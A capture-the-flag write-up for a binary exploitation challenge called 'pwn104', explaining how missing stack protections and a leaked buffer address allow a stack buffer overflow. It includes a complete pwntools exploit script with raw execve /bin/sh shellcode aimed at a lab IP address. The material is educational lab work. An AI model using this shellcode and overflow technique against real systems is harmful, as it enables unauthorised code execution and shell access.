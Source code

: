 # Challenge Name : pwn104

category : pwn

# File

Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : False
PIC    : False
```

Looking at all function there is no call system anywhere.However since NX-bit is False . We can just execute a shell code .

# Approach

We will put the shell code to in the buffer and change the return address to point at the buffer back that contain the shellcode to be execute

However the hard thing is to know where our buffer address is since in most device the ASLR(Address space layout randomization) is `enable` the buffer address will be randomize every execution.

This challenge already help us by giving the the address of buffer. We can see that printf and read print and use exact address which is rbp-0x50.
![alt text](../images/image-4.png)

By checking in hexdump we can see that it already specify the buf address using %p
![alt text](../images/image-4-2.png)

# Python Scripting

![alt text](../images/image-4-3%201.png)

```
from pwn import *

context.binary = binary = ELF("./pwn104-1644300377109.pwn104")

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"


# p = process()
p = remote("10.10.58.247",9004)
output = p.recv()

buffer_address = int(output.split(b"at")[1].strip().decode("utf-8"),16)

#payload = shellcode + padding + rbp + buffer_address
payload = shellcode + b"A" *(0x50 - len(shellcode)) + b"A" * 0x8+ p64(buffer_address) +p64(buffer_address)

p.sendline(payload)

p.interactive()
```